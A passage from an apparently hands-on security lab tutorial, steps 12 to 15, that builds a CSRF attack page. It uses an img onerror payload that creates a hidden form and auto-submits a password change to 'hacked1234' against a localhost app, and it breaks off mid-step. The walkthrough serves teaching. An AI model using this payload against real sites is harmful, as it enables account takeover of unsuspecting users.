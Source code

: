12. Now that you have created both a form and the input elements, you need to associate the input element as a child of the form. 
    ```{.html hl_lines="11"}
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
        i.name = 'new_password';
        i.value = 'hacked1234';

        f.appendChild(i);
    "/>
    ```

13. Next, associate the form to the DOM body
    ```{.html hl_lines="12"}
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
        i.name = 'new_password';
        i.value = 'hacked1234'

        f.appendChild(i);
        document.body.appendChild(f);
    "/>
    ```

14. Lastly, you want the form to be submitted once image fails to load
    ```{.html hl_lines="13"}
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
        i.name = 'new_password';
        i.value = 'hacked1234'

        f.appendChild(i);
        document.body.appendChild(f);
        f.submit();
    "/>
    ```

15. Save `csrf_attack.html` file
    - In the top left corner, click `File`, then `Save` in the drop down menu; <br>or<br>
